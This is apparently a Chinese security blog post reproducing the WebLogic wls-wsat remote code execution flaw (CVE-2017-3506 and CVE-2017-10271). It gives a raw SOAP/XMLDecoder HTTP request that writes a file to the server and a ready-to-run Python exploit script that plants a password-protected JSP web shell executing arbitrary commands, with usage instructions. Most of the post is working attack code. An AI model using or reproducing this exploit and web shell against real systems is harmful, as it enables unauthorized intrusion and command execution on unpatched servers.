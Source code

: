 ```yaml
---
title: "WebLogic RCE 复现"
date: 2018-02-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['rce']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



WebLogic Server 组件的 WLS Security 子组件存在安全漏洞, 可造成任意代码执行.

<!--more-->

poc

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.2.100:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 582

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter"> 
                        <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/vuln.jsp</string><void method="println">
                        <string>weblogic</string></void><void method="close"/>
                    </object>
                </java>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

发送代码

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560533.jpg)

访问 /bea_wls_internal/vuln.jsp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560609.jpg)

本地查看

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560621.jpg)

已经生成成功

**exp**

```
import requests
import sys

def exploit(url,filename):
    content = '<% if("weblogic".equals(request.getParameter("pass"))){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>'
    payload = '<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java><java version="1.6.0" class="java.beans.XMLDecoder"><object class="java.io.PrintWriter"><string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/'+filename+'</string><void method="println"><string><![CDATA['+content+']]></string></void><void method="close"/></object></java></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>'
    headers = {'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64; rv:57.0) Gecko/20100101 Firefox/57.0','Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8','Upgrade-Insecure-Requests':'1','Content-Type':'text/xml'}
    response = requests.post(url+'/wls-wsat/CoordinatorPortType',data=payload,headers=headers)
    if response.status_code == 500:
        print 'Shell:',url + '/bea_wls_internal/' + filename + '?pass=weblogic&cmd=whoami'
    else:
        print 'Fail'

if __name__ == '__main__':
    print '[*] WebLogic wls-wsat RCE Exp'
    print '[*] CVE-2017-3506 & CVE-2017-10271'
    print
    if len(sys.argv) == 3:
        exploit(sys.argv[1],sys.argv[2])
    else:
        print 'Usage: WebLogic_Exp.py url shell.jsp'
```

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560673.jpg)

backdoor.jsp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560689.jpg)